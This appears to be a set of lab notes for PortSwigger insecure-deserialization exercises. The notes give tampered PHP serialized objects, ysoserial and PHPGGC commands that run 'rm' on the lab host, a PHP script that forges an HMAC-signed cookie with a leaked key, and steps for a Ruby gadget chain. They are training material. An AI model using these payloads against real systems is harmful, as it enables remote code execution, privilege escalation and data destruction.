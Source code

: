 ## Modifying serialized objects (/admin)

1) GET /my-account request contains a session cookie that appears to be URL and Base64-encoded.
2) The `admin` attribute contains `b:0`, indicating the boolean value false. Change to `b:1`.

## Modifying serialized data types (/admin)

`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`

## Using application functionality to exploit insecure deserialization

1) "My account" page, notice the option to delete your account by sending a POST request to `/my-account/delete`.
2) `s:11:"avatar_link";s:23:"/home/carlos/morale.txt"` //avatar_link attribute, which contains the file path to your avatar. Change to a file.

## Arbitrary object injection in PHP

1) From the site map, notice that the website references the file `/libs/CustomTemplate.php`. Add "~" to view the code.
2) Notice the `CustomTemplate` class contains the `__destruct()` magic method. This will delete the file on this path.
3) `O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}` . Base64 and URL-encode.

## Exploiting Java deserialization with Apache Commons

This case is use standard `ysoserial`:
In Java versions 15 and below:

`java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64`

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons

## Exploiting PHP deserialization with a pre-built gadget chain

1) Find Cookie that can be encoded Base64 - and after - Seriliazed PHP object.
2) Notice:
   A developer comment discloses the location of a debug file at `/cgi-bin/phpinfo.php` that it leaks some key SECRETKEY;
   The error message reveals that the website is using the `Symfony 4.3.6 framework`.
3) Download the "PHPGGC" tool and execute:
```
   ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```
4) Assign the object you generated in PHPGGC to the $object variable;
And the secret key that you copied from the phpinfo.php file to the $secretKey variable. Below.
6) Use script:

```
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

## Exploiting Ruby deserialization using a documented gadget chain

1) session cookie contains a serialized ("marshaled") Ruby object;
2) Browse the web to find the Universal Deserialisation Gadget for Ruby 2.x-3.x by vakzz on devcraft.io;
3) Change the `id` to `rm /home/carlos/morale.txt`;
4) Replace the final two lines with `puts Base64.encode64(payload)`.
